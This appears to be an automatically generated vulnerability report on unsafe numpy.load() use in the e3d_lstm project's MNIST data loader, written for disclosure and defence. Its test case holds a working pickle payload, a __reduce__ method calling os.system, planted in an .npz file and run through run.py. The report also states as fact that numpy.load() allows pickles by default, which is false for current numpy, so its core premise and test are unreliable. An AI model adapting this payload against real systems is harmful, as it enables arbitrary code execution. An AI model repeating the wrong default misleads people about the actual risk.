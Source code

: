 - **Vulnerability Name:** Deserialization of Untrusted Data in MNIST Dataset Loading
- **Description:**
    - The `mnist.py` file's `InputHandle.load()` function uses `numpy.load()` to load data from `.npz` files. These files are provided as command-line arguments `--train_data_paths` and `--valid_data_paths` to `run.py`.
    - `numpy.load()` by default allows loading pickled Python objects from `.npz` files (i.e., `allow_pickle=True`).
    - A malicious actor can create a specially crafted `.npz` file containing a pickled object. When this file is loaded by `numpy.load()`, the pickled object can execute arbitrary Python code.
    - To trigger this vulnerability, an attacker would need to convince a user to train or test the model using a malicious `.npz` file by providing its path as either `--train_data_paths` or `--valid_data_paths` argument when executing `run.py` or the provided shell scripts.
- **Impact:** Arbitrary code execution on the machine running the training or testing script. This can lead to:
    - Complete compromise of the system.
    - Data exfiltration and theft.
    - Installation of malware or backdoors.
    - Denial of service (although this specific vulnerability is primarily for code execution, it could be leveraged for DoS).
- **Vulnerability Rank:** Critical
- **Currently Implemented Mitigations:**
    - None. The code directly uses `np.load()` without any input validation or security considerations for the loaded data.
- **Missing Mitigations:**
    - **Disable `allow_pickle` in `np.load()`:** The most effective mitigation is to load `.npz` files with `allow_pickle=False` in `numpy.load()`. This prevents the execution of arbitrary code from pickled objects within the `.npz` file. This would restrict `.npz` loading to only NumPy arrays and related data structures, which are safe from arbitrary code execution vulnerabilities.
    - **Input validation and sanitization:** While difficult for complex data formats like `.npz`, basic validation could check for unexpected file structures or unusually large data chunks. However, this is not a robust solution against malicious pickles.
    - **Sandboxing or containerization:** Running the training and testing processes within a sandboxed environment (like Docker or VMs) can limit the potential damage if code execution occurs. This doesn't prevent the vulnerability but contains its impact.
- **Preconditions:**
    - The user must execute `run.py` or one of the provided shell scripts (`e3d_lstm_mm_train.sh`, `e3d_lstm_kth_train.sh`).
    - The user must provide or be tricked into providing a path to a malicious `.npz` file as either the `--train_data_paths` or `--valid_data_paths` command-line argument.
    - The attacker needs a way to deliver or make the malicious `.npz` file accessible to the user, for example, through social engineering, compromised websites, or man-in-the-middle attacks.
- **Source Code Analysis:**
    - **File: `/code/src/data_provider/mnist.py`**
        ```python
        def load(self):
            """Load the data."""
            dat_1 = np.load(self.paths[0]) # Vulnerable line: np.load() with default allow_pickle=True
            for key in dat_1.keys():
                self.data[key] = dat_1[key]
            if self.num_paths == 2:
                dat_2 = np.load(self.paths[1]) # Vulnerable line: np.load() with default allow_pickle=True
                num_clips_1 = dat_1['clips'].shape[1]
                dat_2['clips'][:, :, 0] += num_clips_1
                self.data['clips'] = np.concatenate((dat_1['clips'], dat_2['clips']),
                                                    axis=1)
                self.data['input_raw_data'] = np.concatenate(
                    (dat_1['input_raw_data'], dat_2['input_raw_data']), axis=0)
                self.data['output_raw_data'] = np.concatenate(
                    (dat_1['output_raw_data'], dat_2['output_raw_data']), axis=0)
        ```
        - The lines `dat_1 = np.load(self.paths[0])` and `dat_2 = np.load(self.paths[1])` in the `load` function of the `InputHandle` class in `/code/src/data_provider/mnist.py` are vulnerable.
        - They use `numpy.load()` to load `.npz` files without specifying `allow_pickle=False`. This means that if the `.npz` file contains a pickled object, `numpy.load()` will deserialize it, potentially executing arbitrary code embedded within the pickle.
- **Security Test Case:**
    - **Step 1: Create a malicious `.npz` file:**
        ```python
        import numpy as np
        import pickle
        import os

        command_to_execute = "touch /tmp/pwned_e3dlstm"  # Command to execute on the system

        class MaliciousObject:
            def __reduce__(self):
                return (os.system, (command_to_execute,))

        malicious_data = {'clips': np.array([[[0, 10]], [[10, 10]]]),
                          'input_raw_data': np.zeros((20, 64, 64, 1)),
                          'output_raw_data': np.zeros((20, 64, 64, 1)),
                          'dims': np.array([(64, 64, 1), (64, 64, 1)]) ,
                          'malicious_code': MaliciousObject()}

        np.savez('malicious.npz', **malicious_data)
        ```
    - **Step 2: Run the training script with the malicious `.npz` file:**
        ```bash
        python run.py \
            --is_training True \
            --dataset_name mnist \
            --train_data_paths malicious.npz \
            --valid_data_paths malicious.npz \
            --save_dir checkpoints/_mnist_e3d_lstm \
            --gen_frm_dir results/_mnist_e3d_lstm \
            --model_name e3d_lstm \
            --allow_gpu_growth True \
            --img_channel 1 \
            --img_width 64 \
            --input_length 10 \
            --total_length 20 \
            --filter_size 5 \
            --num_hidden 64,64,64,64 \
            --patch_size 4 \
            --layer_norm True \
            --sampling_stop_iter 50000 \
            --sampling_start_value 1.0 \
            --sampling_delta_per_iter 0.00002 \
            --lr 0.001 \
            --batch_size 4 \
            --max_iterations 1 \
            --display_interval 1 \
            --test_interval 1 \
            --snapshot_interval 10000
        ```
    - **Step 3: Verify code execution:**
        - After running the script, check if the file `/tmp/pwned_e3dlstm` exists.
        ```bash
        ls /tmp/pwned_e3dlstm
        ```
        - If the file `/tmp/pwned_e3dlstm` exists, it confirms that the code within the malicious `.npz` file was executed, demonstrating the arbitrary code execution vulnerability.